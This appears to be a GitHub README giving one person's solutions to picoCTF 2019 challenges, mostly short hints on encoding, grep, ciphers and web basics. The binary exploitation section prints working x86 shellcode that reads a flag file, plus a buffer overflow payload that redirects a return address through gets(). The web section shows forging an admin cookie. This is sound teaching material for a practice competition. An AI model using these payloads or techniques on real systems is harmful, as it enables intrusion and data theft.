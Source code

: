 # picoCTF

I will update this as I work through all of the challenges. I highly recommend trying them on your own before reading my solutions.

## General Skills

#### 2 Warm
This type of problem is really easy to solve with python. Open python in your terminal and use ```bin()``` to convert the number to binary.

#### Let's Warm Up
This is another one that is really easy with python. When converting hexadecimal to ASCII my method of choice is to use ```chr()```

#### Warmed Up
Another easy python challenge to convert to decimal ```int('0x3D', 16)```

#### Bases
If you haven't noticed already, python is your friend. This one I solved using ```base64.b64decode(encoded_string)```

#### First Grep
Easy grep, solved using ```cat file | grep "pico"```

#### Resources
Read the source code.

#### strings it
The name gives it away, but use strings to find the flag for this one ```strings strings | grep "pico"```

#### what's a net cat?
This one is super simple. Use ```netcat 2019shell1.picoctf.com 12265``` to connect to the server and retrieve the flag.

## Forensics

#### Glory of the Garden
I went straight to the basics on this one. Flags are often hidden at the end of the image, and since we know the flag format we can search for it with ```strings garden.jpg | grep "pico"```

#### unzip
Another easy one, just unzip.

## Cryptography

#### The Numbers
This is another one where knowing the flag format helps us out significantly. We can see ```{ }``` which is part of our flag format, and can also see that none of the numbers are greater than 26. This probably means it's a simple substitution cypher. To solve this I wrote a python script that takes the alphabet and the provided numbers to print out the flag. ```python3 the_numbers.py```

#### 13
This is a caesar cipher, so just decode like any other.

#### Easy 1
This is vigenere cipher which we can pretty much tell by the provided table. To solve this one I wrote a python script ```python3 easy1.py```

#### caesar
As the name implies this is another caesar cipher. The trick to this one is finding the correct ROT.

## Binary Exploitation

#### handy-shellcode
This wasn't too hard but I always have the most fun with these. There's no overflow required for this challenge, just basic shellcode really. The first thing I did was convert the path of the file to shellcode:

<code>
\x68\x74\x00\x00\x00\x68\x67\x2e\x74\x78\x68\x2f\x66\x6c\x61\x68\x33\x33\x65\x62\x68\x35\x35\x64\x32\x68\x64\x31\x36\x37\x68\x32\x39\x31\x66\x68\x32\x64\x36\x34\x68\x61\x38\x31\x36\x68\x34\x65\x31\x32\x68\x66\x30\x62\x38\x68\x65\x5f\x36\x5f\x68\x6c\x63\x6f\x64\x68\x73\x68\x65\x6c\x68\x6e\x64\x79\x2d\x68\x73\x2f\x68\x61\x68\x62\x6c\x65\x6d\x68\x2f\x70\x72\x6f
</code><br/><br/>
 
Then I completed it by adding the instructions to read the file, and executing the shellcode:
  
<code>
echo -e '\x31\xc9\x51\x68\x74\x00\x00\x00\x68\x67\x2e\x74\x78\x68\x2f\x66\x6c\x61\x68\x33\x33\x65\x62\x68\x35\x35\x64\x32\x68\x64\x31\x36\x37\x68\x32\x39\x31\x66\x68\x32\x64\x36\x34\x68\x61\x38\x31\x36\x68\x34\x65\x31\x32\x68\x66\x30\x62\x38\x68\x65\x5f\x36\x5f\x68\x6c\x63\x6f\x64\x68\x73\x68\x65\x6c\x68\x6e\x64\x79\x2d\x68\x73\x2f\x68\x61\x68\x62\x6c\x65\x6d\x68\x2f\x70\x72\x6f\x31\xc0\xb0\x05\x89\xe3\xcd\x80\x89\xc3\x31\xc0\xb0\x03\x89\xe1\x31\xd2\xfe\xc2\xcd\x80\x50\x53\x31\xc0\xb0\x04\x31\xdb\xfe\xc3\xcd\x80\x5b\x58\x83\xf8\x01\x74\xe1\xb0\x06\xcd\x80\xb0\x01\xcd\x80' | ./vuln
</code>

#### practice-run-1
This one is too simple to need an explanation.

#### OverFlow 0
This one requires a basic overflow to retreive the flag. We can see that the buffer is 128 bytes, so we'll feed it more than that to crash the program and retreive the flag.

#### OverFlow 1
The first thing you want to do for this challenge is look over the source code in ```vuln.c```. There are a few things to note here. First of all we can see that the buffer size is 64 bytes. We can see that when we run the program it gives us the return memory address, and also that there is a ```flag()``` function that's never called. It looks like we'll have to use a buffer overflow to execute the ```flag()``` function and get our flag. Another thing to note is what is actually allowing this buffer overflow to happen. Since the program is using ```gets(buf)``` it doesn't actually care about the buffer, it just keeps reading until a new line which ultimately overflows it.

To get started we'll want to get some basic memory information. Since this one gives us the return address as part of the main ```vuln()``` function we can run the program and enter something less than 64 bytes to see normal behaviour. After doing this we can see that the normal address is ```0x8048705```. Now we'll look at the program to find the address of the flag function. To do this I opened the vuln program with ```gdb vuln``` and examined the ```flag()``` function with ```disas flag```. We can now see that this address is ```0x080485e6```. One last thing is that since this is Intel architecture we'll need to convert to little endian before running anything, ```\xe6\x85\x04\x08```.

It took a little bit of playing around to retrieve the flag, but I've provided my code below. One tip while doing this is to alternate the letters that you're using for your buffer. Since the program prints the return memory address after execution, you can use that to see where you're overwriting the memory. In my case I noticed 44 in the address which is ```D (0x44)```, so I knew to shorten my string by a few bytes.

<code>
cat <(echo -e '666666666666666666666666666666666666666666666666666666666666666AAAABBBBCCCCD\xe6\x85\x04\x08') - | ./vuln
</code>

## Web Exploitation

#### Insp3ct0r
This one really doesn't need much info. Read all of the source code.

#### logon
If you view the session cookies for this web app you'll see there is a flag for admin that is currently set to false. If you edit the cookie and set this to true you'll be able to retrive the flag.

#### where are the robots
This is web exploitation 101. Always check the ```robots.txt``` file.

## Reverse Engineering

#### vault-door-training
Source code is your friend.

#### dont-use-client-side
This is a lot like the hackthebox signup page. If you have a very basic understanding of JavaScript you'll be able to decode the 'algorithm' for the password verification.

#### vault-door-1
This challenge involves reading the Java source code and reverse engineering the algorithm being used to validate the password.
